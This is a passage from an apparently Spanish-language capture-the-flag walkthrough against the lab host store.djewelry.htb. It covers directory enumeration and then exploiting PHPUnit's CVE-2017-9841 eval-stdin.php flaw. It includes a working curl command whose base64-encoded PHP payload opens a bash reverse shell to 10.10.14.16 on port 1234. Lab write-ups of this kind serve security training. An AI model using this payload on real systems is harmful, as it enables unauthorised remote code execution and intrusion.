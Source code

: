 ```console
/vendor               (Status: 200) [Size: 3126] 
/fonts                (Status: 200) [Size: 7580]
```

> Explicación de parámetros :
{: .prompt-info}

> dir : Usar modo de enumeración de directorios/archivos
>
> -t \<count\> : Asignar \<count\> tareas en paraleo
>
> -u \<url\> : Url objetivo
>
> -b \<status\_code\> : Omitir output de ciertos \<status\_code\>
>
> -w \<wordlist\> : Ruta de \<wordlist\> para el fuzzing

Todas la rutas son clásicas de un sitio web menos `vendor`, el cuál tiene activo **Directory Listing**:

![HTTP/VENDOR](http_vendor_path.png)

## Foothold

* * *

Investigando un poco encontramos una vulnerabilidad que nos permite **Remote Code Execution** por medio del framework **PHPUnit [(CVE-2017-9841)](https://blog.ovhcloud.com/cve-2017-9841-what-is-it-and-how-do-we-protect-our-customers/)**

La vulnerabilidad se da gracias a la linea de código `eval('?>' . file_get_contents('php://input'));` del archivo `eval-stdin.php` de reside en la ruta `http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php`

Ahora solo nos queda inyectar una **Reverse shell** y conseguimos entrar a la máquina como el usuario **www-data**:

Podemos hacerlo usando `burpsuite` o `curl` :

> **Burpsuite**
>
> ![BURPSUITE/RCE](burpsuite_rce.png)

> **Curl**
>
> Para evitar problemas con las comillas dobles y simples `"",''`, codificamos nuestra reverse shell a `base64` y ya en la petición lo decodeamos con `base64_decode` para ejecutarlo:
>
```shell
curl -s -XPOST -d '<?php system(base64_decode(L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE2LzEyMzQgMD4mMScK));' http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```
{: .nolineno }
